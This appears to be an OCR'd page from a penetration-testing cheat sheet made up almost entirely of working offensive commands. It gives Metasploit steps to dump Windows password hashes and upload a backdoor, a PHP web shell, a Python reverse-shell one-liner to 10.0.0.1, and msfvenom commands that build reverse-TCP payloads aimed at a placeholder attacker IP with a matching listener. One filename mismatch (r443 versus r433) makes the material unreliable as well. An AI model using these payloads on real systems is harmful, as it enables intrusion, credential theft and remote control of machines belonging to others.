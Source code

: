 ```bash
# Dumping the Password Database
> background
> use post/windows/gather/hashdump
> set session 2
> exploit

# Upload / download files
> download HaxLogs.log /root/
> upload /root/backdoor.exe c:\\Windows # note the backslash escaping
> shell

# Is UAC enabled?
run post/windows/gather/win_privs
```

## Shells

```bash
system('ls');

echo 'ls';

passthru("ls");

# Python
import os
exit_code = os.system('ls')
output    = os.popen('ls').read()
```

Simple php shell:

```php
<html>
<?php
  echo "<form method=GET><input type=text name=cmd><input type=submit value=ok></form>";
  system($_GET["cmd"]);
```

Reverse Shell is the most common one we'll use:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### msfvenom

```bash
# msfvenom
# => list payloads for linux
msfvenom --list payloads | grep x64 | grep linux | grep reverse

# => Generate Staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=<attacker_IP> lport=443 -f elf -o r443
chmod +x r433

# => Generate Stagelesss payload
> msfvenom --list payloads | grep php | grep reverse
> msfvenom -p php/reverse_php lhost=<attacker_IP> lport=443 -o r443.php

# => Listener staged
$ msfconsole
> use exploit/multi/handler
> set payload linux/x64/shell/reverse_tcp # has to be exactly the same!
```
